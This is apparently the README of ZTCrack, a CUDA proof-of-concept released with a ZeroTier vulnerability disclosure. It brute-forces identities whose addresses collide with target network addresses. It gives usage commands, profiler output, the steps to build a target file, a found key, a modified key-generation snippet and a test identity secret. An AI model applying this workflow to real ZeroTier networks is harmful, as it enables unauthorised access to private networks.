 # ZTCrack - A Zerotier CUDA Bruteforce proof-of-concept

This repo shows a proof-of-concept tool that can be used to generate colliding Zerotier identities with CUDA. This code is awful, you shouldn't use it and probably don't want to. This code isn't optimized, includes various snippets and chunks copied-and-pasted from Zerotier and other sources, contains overflow issues and doesnt follow any sort of CUDA (or any other, for that matter) best-practice.

Private keys are generated by incrementing a 64 bit integer. If you do find a collision, you should not use the private key for anything aside from testing Zerotier.

This codebase has been released as part of a wider [Zerotier vulnerability disclosure](https://pulsesecurity.co.nz/advisories/Zerotier-Private-Network-Access)

## Running

Target network identifiers are expected in `targets.dat` in binary. If this file doesnt exist, the tool is run in benchmark mode instead where 5 valid hashes will be generated and then exit.

I ran this on an RTX2070 with the following:

```
> nvprof.exe .\ztcrack.exe 32 72 6600
Setting heap size to 6920601600
==9804== NVPROF is profiling process 9804, command: .\ztcrack.exe 32 72 6600
[!] Error: Could not open file targets.dat: No such file or directory
[!] Running in benchmark mode
Running 72 threads and 32 blocks. Total 2304
==9804== Profiling application: .\ztcrack.exe 32 72 6600
==9804== Profiling result:
            Type  Time(%)      Time     Calls       Avg       Min       Max  Name
 GPU activities:  100.00%  169.977s         1  169.977s  169.977s  169.977s  crack(void*, __int64, bool)
      API calls:   99.74%  169.977s         1  169.977s  169.977s  169.977s  cudaDeviceSynchronize
                    0.13%  224.94ms         1  224.94ms  224.94ms  224.94ms  cudaDeviceSetLimit
                    0.13%  215.61ms         1  215.61ms  215.61ms  215.61ms  cudaLaunchKernel
                    0.00%  26.400us         1  26.400us  26.400us  26.400us  cuDeviceTotalMem
                    0.00%  21.000us        97     216ns     100ns  1.1000us  cuDeviceGetAttribute
                    0.00%  9.2000us         1  9.2000us  9.2000us  9.2000us  cuDeviceGetPCIBusId
                    0.00%  2.2000us         1  2.2000us  2.2000us  2.2000us  cudaGetLastError
                    0.00%  2.1000us         1  2.1000us  2.1000us  2.1000us  cuDeviceGetName
                    0.00%  1.9000us         2     950ns     300ns  1.6000us  cuDeviceGet
                    0.00%  1.5000us         3     500ns     400ns     600ns  cuDeviceGetCount
                    0.00%     400ns         1     400ns     400ns     400ns  cuDeviceGetLuid
                    0.00%     300ns         1     300ns     300ns     300ns  cuDeviceGetUuid
```

The first parameter is the number of blocks, the second is the number of threads. The third parameter is the device heap size in MB. The heap size needs to be large enough to support the `genmem` area per-thread, which is 2097152 bytes. In benchmark mode, each thread will generate 5 valid private keys and then exit. So in this case it took 170 seconds to generate 11520 valid keys, or roughly 68 hashes-per-second.

You can generate a `targets.dat` by converting the 5 byte network address into binary and sending that into a file:

```
echo 62613ea298 | xxd -p -r > targets.dat
echo 4142434445 | xxd -p -r >> targets.dat
```

When a collision is found, it'll echo out the private key and the network address it matched:

```
PS C:\Users\DoI\Documents\src\cuda_salsa20> .\ztcrack.exe 32 72 6600
Setting heap size to 6920601600
bufsize: 16200040
read: 16200040
Initial
Running 72 threads and 32 blocks. Total 2304
key: 18438737674372003211, address: 62613ea298
```

You can then tweak the zerotier C22519 generation to match the bruteforcer and spit out an identity file.

```
doi@COG-2:~/src/ZeroTierOne$ ./zerotier-idtool generate test.secret
first byte: 6 06
address: 62613ea298
test.secret written
doi@COG-2:~/src/ZeroTierOne$ cat test.secret
62613ea298:0:d4e243391009b7f4f77a068697875d48bd34dbaa29c3e8c37ba306a4f64bc14f3b6a27bcceb6a42d62a3a8d02a6f0d73653215771de243a63ac048a18b59da29:00008b358ee3388ee3ff000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000
```

The following shows my modified C22516.hpp file:

```
 72     template<typename F>
 73     static inline Pair generateSatisfying(F cond)
 74     {
 75         Pair kp;
 76         uint8_t * priv = (uint8_t *)kp.priv.data;
 77         //Utils::getSecureRandom(priv,ZT_C25519_PRIVATE_KEY_LEN);
 78         memset(priv, 0x00, ZT_C25519_PRIVATE_KEY_LEN);
 79
 80         
 81         uint64_t key = 18438737674372003211;
 82         memcpy(priv+2, &key, sizeof(uint64_t));
 83
 84         _calcPubED(kp); // do Ed25519 key -- bytes 32-63 of pub and priv
 85         _calcPubDH(kp); // keep regenerating bytes 0-31 until satisfied
 86         cond(kp);
 87         //while(!cond(kp)){
 88         //  ++(((uint64_t *)priv)[1]);
 89         //  --(((uint64_t *)priv)[2]);
 90         //}
 91         return kp;
 92     }
 ```

Again, hacky. If you're wondering why the integer used as the private key is getting nudged forward, it's to deal with C25519's clamping of higher bits.
